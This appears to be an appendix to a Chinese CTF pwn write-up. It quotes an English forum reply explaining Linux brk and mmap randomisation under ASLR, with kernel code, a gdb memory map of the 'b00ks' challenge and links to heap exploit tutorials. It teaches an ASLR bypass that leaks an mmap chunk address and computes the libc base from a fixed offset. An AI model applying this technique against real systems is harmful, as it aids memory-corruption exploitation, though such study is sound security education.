附 固定地址原理 因为，我当时是英文论坛和网友交流得出的结论，我这里直接贴我当时回复了。
I think brk and mmap are two different things in linux. When I malloc small space of linux, malloc will use brk. Inversely, it will use mmap for big space (almost > 128KB).
In ASLR, both heap and mmap will have a random offset.
brk
1 2 3 4 5 unsigned long arch_randomize_brk (struct mm_struct *mm) { unsigned long range_end = mm->brk + 0x02000000 ; return randomize_range(mm->brk, range_end, 0 ) ? : mm->brk; }
mmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 void arch_pick_mmap_layout (struct mm_struct *mm, struct rlimit *rlim_stack) { if (mmap_is_legacy()) clear_bit(MMF_TOPDOWN, &mm->flags); else set_bit(MMF_TOPDOWN, &mm->flags); arch_pick_mmap_base(&mm->mmap_base, &mm->mmap_legacy_base, arch_rnd(mmap64_rnd_bits), task_size_64bit(0 ), rlim_stack); } static void arch_pick_mmap_base (unsigned long *base, unsigned long *legacy_base, unsigned long random_factor, unsigned long task_size, struct rlimit *rlim_stack) { *legacy_base = mmap_legacy_base(random_factor, task_size); if (mmap_is_legacy()) *base = *legacy_base; else *base = mmap_base(random_factor, task_size, rlim_stack); }
PS: If paging is level 4, task size is 0x7ffffffff000.
For example, here my heap is from 0x55650f802000 and mmap area is from 0x7fdcf6d94000.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 process 1181521 Mapped address spaces: Start Addr End Addr Size Offset objfile 0x55650f600000 0x55650f602000 0x2000 0x0 /home/parallels/Desktop/b00ks 0x55650f801000 0x55650f802000 0x1000 0x1000 /home/parallels/Desktop/b00ks 0x55650f802000 0x55650f803000 0x1000 0x2000 /home/parallels/Desktop/b00ks 0x556510fde000 0x556510fff000 0x21000 0x0 [heap] 0x7fdcf6d94000 0x7fdcf6dd6000 0x42000 0x0 0x7fdcf6dd6000 0x7fdcf6df8000 0x22000 0x0 /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0x7fdcf6df8000 0x7fdcf6f70000 0x178000 0x22000 /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0x7fdcf6f70000 0x7fdcf6fbe000 0x4e000 0x19a000 /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0x7fdcf6fbe000 0x7fdcf6fc2000 0x4000 0x1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0x7fdcf6fc2000 0x7fdcf6fc4000 0x2000 0x1eb000 /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0x7fdcf6fc4000 0x7fdcf6fca000 0x6000 0x0 0x7fdcf6fdd000 0x7fdcf6fde000 0x1000 0x0 /usr/lib/x86_64-linux-gnu/ld-2.31 .so 0x7fdcf6fde000 0x7fdcf7001000 0x23000 0x1000 /usr/lib/x86_64-linux-gnu/ld-2.31 .so 0x7fdcf7001000 0x7fdcf7009000 0x8000 0x24000 /usr/lib/x86_64-linux-gnu/ld-2.31 .so 0x7fdcf700a000 0x7fdcf700b000 0x1000 0x2c000 /usr/lib/x86_64-linux-gnu/ld-2.31 .so 0x7fdcf700b000 0x7fdcf700c000 0x1000 0x2d000 /usr/lib/x86_64-linux-gnu/ld-2.31 .so 0x7fdcf700c000 0x7fdcf700d000 0x1000 0x0 0x7ffe19d76000 0x7ffe19d97000 0x21000 0x0 [stack ] 0x7ffe19df2000 0x7ffe19df6000 0x4000 0x0 [vvar] 0x7ffe19df6000 0x7ffe19df8000 0x2000 0x0 [vdso] 0xffffffffff600000 0xffffffffff601000 0x1000 0x0 [vsyscall]
Besides, the dynamic loader uses mmap(2) with MAP_PRIVATE and appropriate permissions.
https://stackoverflow.com/questions/4022127/how-the-share-library-be-shared-by-different-processes
So, my understanding is:
If the program is simple, like I can fully predict what will happen e.g. when malloc will be, size of per chunk of mmap, if the program will load .so or uninstall .so, no side effect of random of time, etc. Once the address of chunk in mmap is leaked, I can calc libc base, because as you said：
Both of them are relative in memory (allocated by mmap).
The beginning address of mapping is random, but the rest mapping is not random.
Finally, I just need to run the program locally to the same leak address following the same steps, and then calculate the fixed offset at that point. This offset will always be valid, even with ASLR.
参考
https://x3h1n.github.io/2019/04/14/pwnable-tw-kidding/
https://blog.csdn.net/qq_48466156/article/details/139691096
https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/off-by-one/#exploit
http://www.asuka39.top/article/security/ctf/pwn/2582/